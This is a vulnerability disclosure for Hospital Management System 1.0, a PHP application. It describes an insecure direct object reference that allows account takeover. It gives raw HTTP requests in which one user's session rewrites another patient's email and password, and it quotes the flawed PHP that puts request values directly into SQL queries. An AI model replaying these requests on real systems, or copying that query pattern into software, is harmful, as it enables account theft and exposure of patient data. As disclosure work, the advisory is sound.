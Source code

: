```yaml
---
title: Hospital Management System 1.0 Insecure Direct Object Reference / Account Takeover
published: true
---
```



- Exploit Title: Hospital Management System - IDOR + Accaunt Takeover
- Google Dork: N/A
- Application: Hospital Management System
- Date: 27.02.2024
- Bugs: IDOR + Accaunt Takeover
- Exploit Author: SoSPiro
- Vendor Homepage: https://www.sourcecodester.com/
- Software Link: https://www.sourcecodester.com/php/16720/free-hospital-management-system-small-practices.html
- Version: 1.0
- Tested on: Windows 10 64 bit Wampserver
- CVE : N/A


### Vulnerability Description:

This report focuses on two vulnerabilities known as "Insecure Direct Object References (IDOR)" and "Account Takeover". These vulnerabilities occur in a scenario where user input and access privileges validation is inadequate.


### Proof of Concept (PoC):

**Target User Information:**

```
---------------------------------
User 1:
ID: 1
Email: patient@patient.com
Password: patient
---------------------------------
User 2:
ID: 4
Email: attack@ker
Password: q1w2e3
---------------------------------
```

- User 1 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: _ga=GA1.1.2080672900.1708952048; _gid=GA1.1.1833914840.1708952048; PHPSESSID=f6je8gcsm0h685mfr2g37ot8to
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=Mrs.Sunita+Dighe&nic=422201&Tele=9090909091&address=India&password=patient&cpassword=patient
```

- User 2 Request

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=4&oldemail=attack%40ker&email=attack%40ker&name=attack+attacker&nic=123123123&Tele=0712345677&address=attac&password=q1w2e3&cpassword=q1w2e3
```


- Attacker's Request

The attacker aims to modify the account details of "patient 1" and sends the following HTTP request:

```
POST /Vaidya%20Mitra/vm/patient/edit-user.php HTTP/1.1
Host: localhost
Cookie: PHPSESSID=4c8per12a8freilu1upich92a4
...
id00=1&oldemail=patient%40patient.com&email=patient%40patient.com&name=MRRS.Sunita+Dighe&nic=422201&Tele=9090909091&address=attac&password=q1w2e3&cpassword=q1w2e3
```

In the above SQL queries, the $id value received from the user is directly included in the query and security
checks are not performed. This allows exploiting another user's information. At the same time, since
the user's identity is obtained from the POST data, the attacker can pass his identity as another user's identity.

[Poc viode](https://www.youtube.com/watch?v=pmoBSnu9IYI)


### Vulnerable code section:

```php
$sql1="update patient set pemail='$email',pname='$name',ppassword='$password',pnic='$nic',ptel='$tele',paddress='$address' where pid=$id ;";
$database->query($sql1);
echo $sql1;
$sql1="update webuser set email='$email' where email='$oldemail' ;";
$database->query($sql1);
echo $sql1;
```


### **Risks This security vulnerability exposes user information to unauthorized access and modifications. Consequently, there are potential risks such as account takeover, privacy breaches, and non-compliance with security policies, which can lead to substantial damage and security breaches in the system.**